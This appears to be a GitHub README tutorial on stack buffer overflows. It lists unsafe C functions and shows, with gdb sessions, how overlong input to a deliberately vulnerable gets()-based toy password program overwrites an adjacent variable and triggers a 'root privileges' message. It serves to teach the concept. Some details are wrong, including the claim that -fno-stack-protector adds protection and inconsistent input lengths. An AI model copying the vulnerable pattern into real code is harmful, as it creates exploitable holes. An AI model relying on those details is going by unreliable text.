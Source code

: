 # buffer-overflow

## Overview

Buffer overflow errors are characterized by the overwriting of adjacent memory locations of the process, which should have never been modified intentionally or unintentionally. Overwriting values of the IP (Instruction Pointer), BP (Base Pointer) and other registers causes exceptions, segmentation faults, and other errors to occur. Usually these errors end execution of the application in an unexpected way. Buffer overflow errors occur when we operate on buffers of char type.

Buffer overflows can consist of overflowing the stack (Stack overflow) or overflowing the heap (Heap overflow).

## What is a Buffer

A buffer, in terms of a program in execution, can be thought of as a region of computer’s main memory that has certain boundaries in context with the program variable that references this memory.

For example :

    char buff[10]
    
In the above example, ‘buff’ represents an array of 10 bytes where buff[0] is the left boundary and buff[9] is the right boundary of the buffer.


## Why are buffer overflows harmful

Generally, exploitation of these errors may lead to:

application DoS
reordering execution of functions
code execution (if we are able to inject the shellcode, described in the separate document)
How are buffer overflow errors are made?


## Protect against buffer overflow
These kinds of errors are very easy to make. For years they were a programmer’s nightmare. The problem lies in native C functions, which don’t care about doing appropriate buffer length checks. Below is the list of such functions and, if they exist, their safe equivalents:

gets() -> fgets() - read characters
strcpy() -> strncpy() - copy content of the buffer
strcat() -> strncat() - buffer concatenation
sprintf() -> snprintf() - fill buffer with data of different types
(f)scanf() - read from STDIN
getwd() - return working directory
realpath() - return absolute (full) path
Use safe equivalent functions, which check the buffers length, whenever it’s possible. Namely:

gets() -> fgets()
strcpy() -> strncpy()
strcat() -> strncat()
sprintf() -> snprintf()
Those functions which don’t have safe equivalents should be rewritten with safe checks implemented. Time spent on that will benefit in the future. Remember that you have to do it only once.

There are many functions that do the exact same thing—these are known as unbounded functions because developers cannot predict when they will stop reading from or writing to memory. Microsoft even has a web page documenting what it calls “banned” functions, which includes these unbounded functions.

Use compilers, which are able to identify unsafe functions, logic errors and check if the memory is overwritten when and where it shouldn’t be.

## Running 

In order to compile this program run the below line

    gcc -Wall -g -fno-stack-protector buffer_overflow.c -o buffer_overflow
    
You may notice that this line contains a flag
    
    -fno-stack-protector
    
This flag emits extra code to check for buffer overflows, such as stack smashing attacks. If we were to compile the exploit without the
flag, the gcc compiler would in most cases be able to prevent the buffer over.

Now once we've compiled our code we can run the output

    ./buffer_overflow


## Results

We will then be presented with a screen to input our password and depending on what we input the output will either give us root privileges or deny this.

    Enter the password : 
    fdsfds

    Wrong Password 

This seems like our program is working correctly however if we enter a slightly longer password see what happens

    Enter the password : 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    Wrong Password 

    Root privileges given to the user 
    
Hold on why did the program give root privileges to an incorrect password to understand this we have to enter the memory of our c program.

    root@kali:~/buffer-overflow# gdb buffer_overflow 
    (gdb) list
    3       #include <signal.h>
    4
    5       int main(void)
    6       {
    7           char buff[15];
    8           int pass = 0;
    9
    10          printf("\n Enter the password : \n");
    11          gets(buff);
    12
    
Here we are interested in the variable pass which is set to one, now in order to find the memory location of where this is stored
we can execute the following command
   
    (gdb) break 8
    Breakpoint 1 at 0x116d: file buffer_overflow.c, line 8.
    
This will set up a breakpoint at line 8 so that we can see the memory location of this variable once we run the program

    (gdb) run buffer_overflow
    Starting program: /root/buffer-overflow/buffer_overflow buffer_overflow

    Breakpoint 1, main () at buffer_overflow.c:8
    8           int pass = 0;
    (gdb) p &pass
    $1 = (int *) 0x7fffffffe13c
    
    
Now we know the memory location of the variable pass lets finish the running of this programe

    (gdb) continue
    Continuing.

    Enter the password : 
    aaaaaaaaaaa

    Wrong Password 

    Program received signal SIGINT, Interrupt.
    __GI_raise (sig=<optimized out>) at ../sysdeps/unix/sysv/linux/raise.c:50
    50      ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
    (gdb) info frame
    Stack level 0, frame at 0x7fffffffe120:
    rip = 0x7ffff7e30761 in __GI_raise (../sysdeps/unix/sysv/linux/raise.c:50); saved rip = 0x5555555551e5
    called by frame at 0x7fffffffe150
    source language c.
    Arglist at 0x7fffffffdff8, args: sig=<optimized out>
    Locals at 0x7fffffffdff8, Previous frame's sp is 0x7fffffffe120
    Saved registers:
    rip at 0x7fffffffe118
    (gdb) x/200x 0x7fffffffdff8
    .....
    0x7fffffffe128: 0x55555080      0x61616155      0x61616161      0x61616161
    0x7fffffffe138: 0x00000000      0x00000000      0x555551f0      0x00005555
    .....


After entering a series of a's (11 in face) we can se this represented between the two memory location as 61 in hex, let's keep increasing this in order to corrupt the value stored at our pass variable. Or an easier solution would be to subtract the two memory locations of the buff array and pass variable.

    (gdb) p &buff
    $8 = (char (*)[15]) 0x7fffffffe12d
    (gdb) p &pass
    $9 = (int *) 0x7fffffffe13c
    0x7fffffffe13c - 0x7fffffffe12d = F
    
The difference between the two locations is 15 bytes or F in Hexadecimal. So in order to change the value of pass we need to enter a input of at least 16 to change the value of pass in order to give us root privileges.

    Enter the password : 
    aaaaaaaaaaaaaaa

    Wrong Password 

    Program received signal SIGINT, Interrupt.
    
It worked and if we inspect the memory of our programme now we can see that the value of pass has changed.
     
    ...
    0x7fffffffe128: 0x55555080      0x61616155      0x61616161      0x61616161
    0x7fffffffe138: 0x61616161      0x00000061      0x555551f0      0x00005555
    ...
    (gdb) x/s 0x7fffffffe13c
    0x7fffffffe13c: "a"


This is because the array "buf" which is limited to 15, since we gave it an input of 16 the extra character a ran over and into the pass variable thus now "pass" contains the value of "a". 


## Reference

1. https://www.thegeekstuff.com/2013/06/buffer-overflow/
2. https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/
3. https://owasp.org/www-community/attacks/Buffer_overflow_attack



